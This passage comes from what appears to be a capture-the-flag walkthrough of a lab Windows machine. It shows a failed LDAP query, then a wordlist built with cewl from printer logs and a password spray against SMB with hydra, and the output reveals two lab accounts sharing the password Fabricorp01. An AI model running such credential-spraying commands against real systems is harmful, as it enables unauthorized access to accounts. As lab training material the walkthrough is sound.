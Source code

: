     # search result
    search: 2
    result: 1 Operations error
    text: 000004DC: LdapErr: DSID-0C090A6C, comment: In order to perform this opera
     tion a successful bind must be completed on the connection., data 0, v3839
    
    # numResponses: 1
    

## Shell as svc-print

### Spray for Password

At this point, I don’t have a lot of options without credentials. I do have a
handful of user names from the these printer logs. The logs are also
potentially a good source of target specific words that might be used as a
password. I’ll use them to build a wordlist and try to spray that against SMB
to see if I can get anything.

#### Build Wordlist

I’ll create a wordlist from the webpage using `cewl`. The `--with-numbers`
flag is a good one to use, especially here:

    
    
    root@kali# cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers > wordlist
    

Because I didn’t specify a `--depth`, it will go two links away from the root
page, which should be enough to get everything I want.

#### Brute

Now I’ll check it against the server. Normally I would use `crackmapexec`.
When I originally solved, I was traveling and my laptop had an old VM on which
`crackmapexec` was breaking, and rather than spend time fixing it, I decided
I’d rebuild later. In the mean time, I used `hydra`, and it found two matches:

    
    
    root@kali# hydra -L users -P wordlist 10.10.10.193 smb
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-15 10:22:33
    [INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
    [DATA] max 1 task per 1 server, overall 1 task, 765 login tries (l:5/p:153), ~765 tries per task
    [DATA] attacking smb://10.10.10.193:445/
    [445][smb] host: 10.10.10.193   login: tlavel   password: Fabricorp01
    [445][smb] host: 10.10.10.193   login: bhult   password: Fabricorp01
    [STATUS] 738.00 tries/min, 738 tries in 00:01h, 27 to do in 00:01h, 1 active
    1 of 1 target successfully completed, 2 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-15 10:23:36
    